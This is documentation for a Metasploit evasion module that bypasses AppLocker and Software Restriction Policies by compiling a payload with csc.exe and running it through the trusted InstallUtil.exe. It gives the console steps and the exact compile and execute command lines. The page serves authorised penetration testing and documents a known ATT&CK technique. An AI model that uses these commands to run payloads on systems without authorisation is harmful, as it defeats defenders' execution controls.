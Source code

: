 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker. 
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
It enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows" 
The main vector for this bypass is to use the trusted binary InstallUtil.exe which is located within the trusted Windows directory and also has the ability to execute user supplied code.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active.

## Options

- **FILENAME** - Filename for the evasive file (default: install_util.txt).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_install_util`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed:
     -`[+] install_util.txt stored at /root/.msf4/local/install_util.txt`
     -`[*] Copy install_util.txt to the target`
     -`[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /out:installutil.exe install_util.txt` - replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
     -`[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U installutil.exe` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1118/
